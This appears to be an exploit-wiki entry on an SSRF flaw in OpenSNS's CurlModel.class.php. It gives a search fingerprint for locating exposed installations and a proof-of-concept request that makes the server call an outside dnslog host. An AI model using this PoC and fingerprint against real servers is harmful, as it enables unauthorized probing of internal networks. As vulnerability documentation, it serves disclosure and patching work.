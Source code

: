 # OpenSNS CurlModel.class.php SSRF vulnerability

## Vulnerability Description

There is an SSRF vulnerability in the curl method in the OpenSNS CurlModel.class.php file. The vulnerability attacker can detect intranet information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSNS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1167011145"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235733223.png)

The vulnerable file is `Application/Admin/Model/CurlModel.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634372194099-77c5fe31-6860-4f22-b7d8-4c7d7c5e1ecb.png)

Construct POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634372283531-85b34ccd-7259-4164-bb67-1806e32fa6ec.png)
